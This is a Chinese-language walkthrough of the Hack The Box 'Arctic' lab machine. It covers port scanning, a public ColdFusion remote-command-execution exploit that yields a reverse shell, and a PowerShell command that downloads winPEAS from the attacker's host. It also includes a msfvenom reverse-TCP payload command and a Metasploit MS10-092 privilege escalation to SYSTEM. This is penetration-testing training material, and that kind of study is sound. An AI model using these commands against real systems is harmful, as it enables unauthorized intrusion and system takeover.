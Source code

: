 # 免责声明
>本文渗透的主机经过合法授权。本文使用的工具和方法仅限学习交流使用，请不要将文中使用的工具和渗透思路用于任何非法用途，对此产生的一切后果，本人不承担任何责任，也不对造成的任何误用或损害负责。

# 服务发现
```
┌──(root💀kali)-[~/htb/Arctic]
└─# nmap -Pn -sV 10.10.10.11 -p-
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-14 10:26 EST
Nmap scan report for 10.10.10.11
Host is up (0.26s latency).
Not shown: 65532 filtered ports
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

连个web服务都没有，一下子有点懵。。
8500端口不太常见，尝试在浏览器上打开，非常慢，但是存在一个文件遍历漏洞

```
Index of /

CFIDE/               dir   03/22/17 08:52 μμ
cfdocs/              dir   03/22/17 08:55 μμ

```

下面路径是一个cms的登录页面
```
http://10.10.10.11:8500/CFIDE/administrator/
```

看title上的cms名字：```ColdFusion```

在谷歌找了几个这个cms的exp，找到了这个[Remote Command Execution](https://www.exploit-db.com/exploits/50057)

下载到本地，修改本地ip和端口

执行攻击：
```
rinting some information for debugging...
lhost: 10.10.14.6
lport: 4444
rhost: 10.10.10.11
rport: 8500
payload: 7ed641ce03ea4eaa92aca6d9ef4c60ab.jsp

Deleting the payload...

Listening for connection...

Executing the payload...
listening on [any] 4444 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.11] 49510

Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis

C:\ColdFusion8\runtime\bin>

```

拿到了初始shell。。

# 提权

传winpea到靶机
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.6:8000/winPEAS.bat
','c:\Users\tolis\Desktop\winPEAS.bat
')"
```

根据winpea枚举显示，靶机缺少较多补丁，可能可以利用来提权

```
                                                                                                                                                                                                                                            
"Microsoft Windows Server 2008 R2 Standard "                                                                                                                                                                                                
   [i] Possible exploits (https://github.com/codingo/OSCP-2/blob/master/Windows/WinPrivCheck.bat)                                                                                                                                           
MS11-080 patch is NOT installed XP/SP3,2K3/SP3-afd.sys)                                                                                                                                                                                     
MS16-032 patch is NOT installed 2K8/SP1/2,Vista/SP2,7/SP1-secondary logon)                                                                                                                                                                  
MS11-011 patch is NOT installed XP/SP2/3,2K3/SP2,2K8/SP2,Vista/SP1/2,7/SP0-WmiTraceMessageVa)                                                                                                                                               
MS10-59 patch is NOT installed 2K8,Vista,7/SP0-Chimichurri)                                                                                                                                                                                 
MS10-21 patch is NOT installed 2K/SP4,XP/SP2/3,2K3/SP2,2K8/SP2,Vista/SP0/1/2,7/SP0-Win Kernel)                                                                                                                                              
MS10-092 patch is NOT installed 2K8/SP0/1/2,Vista/SP1/2,7/SP0-Task Sched)                                                                                                                                                                   
MS10-073 patch is NOT installed XP/SP2/3,2K3/SP2/2K8/SP2,Vista/SP1/2,7/SP0-Keyboard Layout)                                                                                                                                                 
MS17-017 patch is NOT installed 2K8/SP2,Vista/SP2,7/SP1-Registry Hive Loading)                                                                                                                                                              
MS10-015 patch is NOT installed 2K,XP,2K3,2K8,Vista,7-User Mode to Ring)                                                                                                                                                                    
MS08-025 patch is NOT installed 2K/SP4,XP/SP2,2K3/SP1/2,2K8/SP0,Vista/SP0/1-win32k.sys)                                                                                                                                                     
MS06-049 patch is NOT installed 2K/SP4-ZwQuerySysInfo)                                                                                                                                                                                      
MS06-030 patch is NOT installed 2K,XP/SP2-Mrxsmb.sys)                                                                                                                                                                                       
MS05-055 patch is NOT installed 2K/SP4-APC Data-Free)                                                                                                                                                                                       
MS05-018 patch is NOT installed 2K/SP3/4,XP/SP1/2-CSRSS)                                                                                                                                                                                    
MS04-019 patch is NOT installed 2K/SP2/3/4-Utility Manager)                                                                                                                                                                                 
MS04-011 patch is NOT installed 2K/SP2/3/4,XP/SP0/1-LSASS service BoF)                                                                                                                                                                      
MS04-020 patch is NOT installed 2K/SP4-POSIX)                                                                                                                                                                                               
MS14-040 patch is NOT installed 2K3/SP2,2K8/SP2,Vista/SP2,7/SP1-afd.sys Dangling Pointer)                                                                                                                                                   
MS16-016 patch is NOT installed 2K8/SP1/2,Vista/SP2,7/SP1-WebDAV to Address)                                                                                                                                                                
MS15-051 patch is NOT installed 2K3/SP2,2K8/SP2,Vista/SP2,7/SP1-win32k.sys)                                                                                                                                                                 
MS14-070 patch is NOT installed 2K3/SP2-TCP/IP)                                                                                                                                                                                             
MS13-005 patch is NOT installed Vista,7,8,2008,2008R2,2012,RT-hwnd_broadcast)                                                                                                                                                               
MS13-053 patch is NOT installed 7SP0/SP1_x86-schlamperei)                                                                                                                                                                                   
MS13-081 patch is NOT installed 7SP0/SP1_x86-track_popup_menu)   
```

编译一个meterpreter的shell传到靶机，方便我们利用补丁提权:

```msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.6 LPORT=4455 -f exe > shell64.exe```


拿到反弹的session以后，选择```MS10-092```补丁的利用模块

```
msf6 > search MS10-092

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/windows/local/ms10_092_schelevator  2010-09-13       excellent  Yes    Windows Escalate Task Scheduler XML Privilege Escalation


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/local/ms10_092_schelevator

```

设置好参数

```
msf6 exploit(windows/local/ms10_092_schelevator) > options

Module options (exploit/windows/local/ms10_092_schelevator):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   CMD                        no        Command to execute instead of a payload
   SESSION   2                yes       The session to run this module on.
   TASKNAME                   no        A name for the created task (default random)


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     4466             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Vista, 7, and 2008

```

发动攻击
```
msf6 exploit(windows/local/ms10_092_schelevator) > run

[*] Started reverse TCP handler on 10.10.14.6:4466 
[*] Preparing payload at C:\Users\tolis\AppData\Local\Temp\bHVjZOnFoCage.exe
[*] Creating task: wHs9mNJi8EUp2
[*] SUCCESS: The scheduled task "wHs9mNJi8EUp2" has successfully been created.
[*] SCHELEVATOR
[*] Reading the task file contents from C:\Windows\system32\tasks\wHs9mNJi8EUp2...
[*] Original CRC32: 0xc87307c
[*] Final CRC32: 0xc87307c
[*] Writing our modified content back...
[*] Validating task: wHs9mNJi8EUp2
[*] 
[*] Folder: \
[*] TaskName                                 Next Run Time          Status         
[*] ======================================== ====================== ===============
[*] wHs9mNJi8EUp2                            1/1/2022 6:04:00 ��    Ready          
[*] SCHELEVATOR
[*] Disabling the task...
[*] SUCCESS: The parameters of scheduled task "wHs9mNJi8EUp2" have been changed.
[*] SCHELEVATOR
[*] Enabling the task...
[*] SUCCESS: The parameters of scheduled task "wHs9mNJi8EUp2" have been changed.
[*] SCHELEVATOR
[*] Executing the task...
[*] Sending stage (200262 bytes) to 10.10.10.11
[*] SUCCESS: Attempted to run the scheduled task "wHs9mNJi8EUp2".
[*] SCHELEVATOR
[*] Deleting the task...
[*] Meterpreter session 3 opened (10.10.14.6:4466 -> 10.10.10.11:49789) at 2021-12-15 03:06:45 -0500
[*] SUCCESS: The scheduled task "wHs9mNJi8EUp2" was successfully deleted.
[*] SCHELEVATOR

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```

成功提权到```AUTHORITY\SYSTEM```


